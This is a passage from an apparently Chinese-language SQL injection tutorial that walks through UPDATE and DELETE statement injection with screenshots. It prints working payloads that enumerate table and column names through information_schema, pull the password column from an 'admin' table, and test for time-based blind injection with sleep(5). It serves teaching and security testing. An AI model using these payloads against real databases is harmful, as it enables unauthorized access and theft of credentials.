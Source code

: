 查看信息
![](http://image.ixysec.com/image/sql/sql137.png)

查表名
```
a',class=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where id=1-- 
```
![](http://image.ixysec.com/image/sql/sql138.png)

查看信息
![](http://image.ixysec.com/image/sql/sql139.png)

查列名
```
a',class=(select group_concat(column_name) from information_schema.columns where table_name='admin') where id=1-- 
```
![](http://image.ixysec.com/image/sql/sql140.png)

查看信息
![](http://image.ixysec.com/image/sql/sql141.png)

查数据
```
a',class=(select password from admin) where id=1-- 
```
![](http://image.ixysec.com/image/sql/sql142.png)

查看信息
![](http://image.ixysec.com/image/sql/sql143.png)

#### DELETE注入
DELETE语句：
```
DELETE FROM table_name where id=1
```
DELETE语句给用户控制的点只有id=1这里了，所以注入方法比较简单，只能使用基于时间的盲注或者报错注入来进行了。

判断注入
```
and if(1=1,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql144.png)

注入过程
注入过程只能采用报错注入或者基于时间的盲注，因为当where条件控制语句的集合为空的时候，也显示删除成功(语句执行成功了的)。

配合基于时间的盲注：
```
and if(盲注语句,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql145.png)
